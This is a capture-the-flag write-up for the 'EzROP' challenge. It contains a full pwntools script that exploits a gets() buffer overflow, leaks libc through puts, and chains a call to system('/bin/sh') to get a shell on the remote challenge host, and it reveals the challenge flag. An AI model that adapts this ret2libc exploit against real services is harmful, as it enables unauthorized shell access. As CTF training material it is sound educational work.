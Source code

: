 #EzROP

> ROP\
> \
> Format Flag : hackfest0x5{}

We decompile the binary file for analysis using IDA Pro, there is a vuln () function if clicked can be seen there is a gets function again\
![image](https://user-images.githubusercontent.com/41176663/170179280-9df17668-6fa7-44dd-9099-1208072fe109.png)
\
Let's try to make the payload using python and libc\
```py
#!/usr/bin/env python

from pwn import *
from pprint import pprint

context.arch = 'amd64'

offset = 40

elf = ELF("./chall")
# p = elf.process()
p = remote("202.125.94.123", 60902)

rop = ROP(elf)
rop.call(elf.symbols["puts"], [elf.got['puts']])
rop.call(elf.symbols["vuln"])

p.recvuntil("\n")

payload = [
    b"A"*offset,
    rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
log.info(f"puts found at {hex(puts)}")

libc = ELF("libc6_2.31-0ubuntu9_amd64.so")
libc.address = puts - libc.symbols["puts"]
log.info(f"libc base address determined {hex(libc.address)}")

rop = ROP(libc)
rop.call("puts", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("system", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("exit")

payload = [
    b"A"*offset,
    rop.chain()
]

payload = b"".join(payload)
with open("payload", "wb") as h:
    h.write(payload)
p.sendline(payload)

p.interactive()
```
When we run the script\
![image](https://user-images.githubusercontent.com/41176663/170179408-5451ac4f-2e2c-4b4b-9b29-97232daf1922.png)
\
The flag is `hackfest0x5{ez_R0p_Ez_W1n_:D__}`

Here I follow the tutorial given by John Hammond
https://youtu.be/i5-cWI_HV8o
